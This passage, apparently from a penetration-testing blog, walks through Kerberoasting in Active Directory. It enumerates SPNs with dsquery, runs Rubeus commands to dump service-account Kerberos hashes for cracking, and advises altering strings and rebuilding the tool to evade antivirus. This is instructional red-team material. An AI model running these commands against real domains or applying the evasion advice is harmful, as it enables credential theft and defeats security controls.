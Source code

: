 ```powershell
dsquery * "ou=domain controllers,dc=yourdomain,dc=com" -filter "(&(objectcategory=computer)
(servicePrincipalName=*))" -attr distinguishedName servicePrincipalName > spns.txt
```

There are more techniques out there such as `Get-DomainUser -SPN` as talked about above and a lot of other ways that I will leave to your imagination. 

Now we are armed with target accounts let's boot up `Rubeus`



**Exploit**



To get Rubeus you will actually need `Visual Studio 2017` or anything that can compile `.NET`. In my case I use Visual Studio and build myself an assembly. Luckily at the moment the default build of Rubeus is only detected by one AV vendor on Virus Total however if your AV is flagging it just change some strings and comments and rebuild the project and your AV will shut up.  That's the beauty of open-source C# / .NET Projects, much easier to circumvent anti-virus solutions.



Armed with out assembly/exe we can simply drop it on the target **Domain-Joined Machine** in the context of a domain user and start Roasting. 



Rubeus Github has an amazing explanation on all it's features and it's ability to target specific `OU's` `Users` etc etc so I will try not to copy it word-for-word but merely show it's capabilities. 



First we can try to Roast all Users in the Current Domain (May be Noise)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast
```



Kerberoast All Users in a Specific OU (Good if Organization has all Service Accounts in a Specific OU)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local
```



This may generate a lot of Output so we can Output all the Hashes to a file for easier Management and Cracking.

```
/outfile:C:\Temp\TotallyNotHashes.txt
```



Roasting a Specific Users or SPN 

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice

PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local
```
